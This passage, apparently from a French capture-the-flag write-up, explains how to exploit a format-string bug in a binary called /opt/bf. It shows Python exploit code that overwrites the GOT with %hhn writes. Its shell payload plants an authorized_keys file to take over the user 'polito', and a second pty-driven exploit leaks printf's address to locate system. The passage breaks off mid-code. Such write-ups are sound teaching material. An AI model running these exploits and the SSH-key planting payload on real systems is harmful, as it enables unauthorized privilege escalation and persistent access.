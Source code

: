 ```python
attack_fmt = "%{:03d}c%016$hhn%{:03d}c%017$hhn%{:03d}c%018$hhn%{:03d}c%019$hhn012345678912".format(values[0], values[1], values[2], values[3])
attack_fmt = addresses + attack_fmt

cmd = "mkdir /home/polito/.ssh; cp /tmp/authorized_keys /home/polito/.ssh/;touch /tmp/hacked.txt;"

fd = open("data.raw", "w")
fd.write(attack_fmt)
fd.write(cmd)
fd.close()

arg =  bf_print_rewind(attack_fmt) + bf_print(cmd)

fd = open("data.raw", "r")

while True:
        try:
                output = subprocess.check_output(["/opt/bf", arg], stdin=fd)
        except subprocess.CalledProcessError:
                pass
        fd.seek(0)
        if os.path.isfile("/tmp/hacked.txt"):
                print "[*] Success !"
                break

fd.close()
```

L'exécution de cet exploit ne prend que quelques secondes. Ce n'est pas parfait, mais on obtient les droits de l'utilisateur `polito` comme attendu.  

## Exploitation de la chaîne de format (2nd cas : dialogue avec mon tty)

Après avoir complété le challenge, j'ai décidé de reprendre l'attaque du binaire `/opt/bf`. À force de recherche, j'ai trouvé un exemple de code pas très beau, mais fonctionnel pour dialoguer octet après octet avec le programme.  

Le principe est de lancer le programme dans un *pty* en code canonique ([voir mon article sur les terminaux]({% link _posts/2011-01-11-Pseudo-terminaux-portes-derobees-telnet-et-tunneling.md %})).  

De cette façon, on peut complètement automatiser l'exploitation du binaire qui premièrement récupère la distance entre `printf` et `system`, deuxièmement obtient l'adresse de `printf` via `%s`, troisièmement calcule l'adresse courante de `system`, et finalement écrase la *GOT* et exécute notre payload :  

```python
import tty
import pty
import termios
import os
import sys
import struct
import subprocess
import time

real_printf = 0

def bf_print(string):
        l = len(string)
        # ask for the string on stdin
        result = ">".join([","]*len(string)) + "#"
        return result

def bf_print_rewind(string):
```